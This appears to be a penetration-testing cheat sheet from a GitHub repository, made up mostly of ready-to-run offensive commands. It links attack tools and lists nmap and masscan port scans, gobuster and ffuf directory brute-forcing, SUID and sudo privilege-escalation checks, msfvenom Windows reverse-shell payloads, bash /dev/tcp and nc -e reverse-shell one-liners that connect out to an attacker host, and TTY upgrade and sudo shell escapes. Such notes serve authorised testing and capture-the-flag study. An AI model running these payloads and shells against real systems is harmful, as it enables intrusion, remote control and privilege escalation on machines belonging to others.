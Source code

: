 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w ~/usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>
```
